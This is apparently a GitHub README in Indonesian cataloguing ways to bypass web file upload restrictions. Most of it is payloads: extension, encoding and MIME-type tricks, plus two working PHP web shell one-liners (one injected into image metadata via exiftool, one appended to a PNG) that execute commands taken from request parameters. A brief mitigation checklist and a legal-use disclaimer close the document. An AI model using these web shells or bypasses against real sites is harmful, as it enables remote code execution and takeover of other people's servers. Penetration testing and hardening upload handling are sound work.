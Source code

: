 # 📂 Unrestricted File Upload Bypass Techniques

![License](https://img.shields.io/badge/license-Educational-blue)
![Status](https://img.shields.io/badge/status-Active-brightgreen)
![Security](https://img.shields.io/badge/security-awareness-important)

> 📖 **Dokumen ini menjelaskan berbagai teknik umum yang digunakan untuk bypass pembatasan unggah file pada aplikasi web.**
> Ditujukan untuk **peneliti keamanan**, **penetration tester**, dan **developer** dalam mengidentifikasi potensi celah dan membangun mitigasi yang tepat.

---

## 📖 Daftar Isi

* [Deskripsi](#deskripsi)
* [Tabel Summary Bypass](#📊-tabel-summary-bypass)
* [Bypass Ekstensi File Umum](#bypass-ekstensi-file-umum)
* [Bypass Magic Number](#📌-teknik-bypass-magic-number)
* [Bypass Tipe MIME](#bypass-tipe-mime)
* [Teknik Unggah File Tanpa Batasan](#teknik-unggah-file-tanpa-batasan)
* [Rekomendasi Mitigasi](#📌-rekomendasi-mitigasi)
* [Lisensi](#📑-lisensi)
* [Kontak](#📬-kontak)

---

## Deskripsi

Serangan unrestricted file upload memungkinkan penyerang mengunggah file berbahaya ke server karena validasi yang lemah. Teknik di dokumen ini memanfaatkan celah pada:

* Validasi ekstensi file
* Pemeriksaan MIME type
* Pemeriksaan magic number file
* Sanitasi nama file yang buruk

---

## 📊 Tabel Summary Bypass

| Teknik                     | Contoh Ekstensi / Metode             | Tujuan                               |
| :------------------------- | :----------------------------------- | :----------------------------------- |
| **Bypass Ekstensi**        | `.php`, `.php5`, `.php.jpg`          | Menipu validasi ekstensi             |
| **Magic Number Injection** | Inject PHP code via `Exiftool`       | Menyisipkan shell di metadata gambar |
| **MIME Type Bypass**       | `application/x-httpd-php`            | Mengakali pengecekan tipe konten     |
| **Encoded Extension**      | `.php%00`, `.php%20`, `.php%0a`      | Menyembunyikan ekstensi asli         |
| **Double/Mixed Extension** | `.png.php`, `.jpg.pHp5`, `.php#.png` | Menyiasati pemeriksaan nama file     |

---

## Bypass Ekstensi File Umum

Beberapa ekstensi yang umum digunakan untuk bypass:

```
.php, .php5, .phtml, .pgif, .phar, .cgi, .pl, .py, .Php, .php.jpg, .php.bak, .exe
```

**Variasi:**

* `.php56`, `.php.test`, `.php.docx`, `.php.unknown`
* `.php.xxxjpg`, `.php.xxxpdf`, `.php.xxxzip`

---

## 📌 Teknik Bypass Magic Number

### 📌 Inject Metadata via Exiftool

```bash
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

---

### 📌 Append PHP Code ke File Gambar

```bash
echo '<?php system($_REQUEST['cmd']); ?>' >> img.png
```

---

## Bypass Tipe MIME

Bypass validasi dengan tipe MIME:

```
application/x-httpd-php
```

---

## Teknik Unggah File Tanpa Batasan

### 📌 Encoded Extension

```
.php%00, .php%20, .php%0a, .php/, .php....
```

### 📌 Double / Mixed Extension

```
.png.php, .php#.png, .php%00.png, .png.jpg.php
```

---

## 📌 Rekomendasi Mitigasi

✅ Validasi **whitelist ekstensi file**

✅ Pemeriksaan **MIME type di server**

✅ Verifikasi **magic number file**

✅ Sanitasi nama file dari karakter spesial

✅ Simpan file **di luar web root**

✅ Atur **file permission non-eksekusi**

✅ Batasi ukuran & scan isi file

---

## 📑 Lisensi

Distribusi untuk tujuan edukasi & keamanan siber.
**Gunakan dengan tanggung jawab.**

---

## 📬 Kontak

📧 Email: **[sinzoxp@gmail.com](mailto:sinzoxp@gmail.com)**
📱 Telegram: [@avxxr00t](https://t.me/avxxr00t)

---

## 📌 Note Tambahan

🚨 **Disclaimer:**
Gunakan teknik ini hanya untuk **penetration testing legal** atau riset di lingkungan yang Anda miliki izin penuh.

---
